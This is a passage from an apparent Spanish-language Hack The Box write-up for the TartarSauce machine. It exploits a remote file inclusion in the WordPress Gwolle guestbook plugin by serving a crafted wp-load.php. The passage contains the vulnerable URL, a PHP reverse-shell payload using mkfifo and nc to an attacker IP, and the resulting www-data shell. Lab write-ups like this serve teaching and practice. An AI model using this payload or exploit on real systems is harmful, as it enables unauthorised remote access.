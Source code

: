 Leyendo el exploit, vemos que tenemos que tenemos posibilidad de un RFI a través de la ruta `/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://`; para probar, vamos a creamos un archivo php de prueba en nuestra máquina y compartimos el servicio HTTP con python. Debemos tener en cuenta que el archivo se tiene que llamar `wp-load.php`:

```bash
❯ cat wp-load.php
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: wp-load.php
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>Esto es una prueba</pre>"
   3   │ ?>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Ahora ingresamos a la siguiente dirección URL y vemos nuestra nuestro archivo:
- http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/

![](/assets/images/htb-tartarsauce/tartarsauce_php.png)

Asi que vamos a crearnos una reverse shell, nos ponemos en escucha por el puerto 443 y accedemos a la direccion URL http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/

```php
<?php
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 443 >/tmp/f')
?>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [21/Sep/2021 21:21:07] "GET /wp-load.php HTTP/1.0" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.88] 34232
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
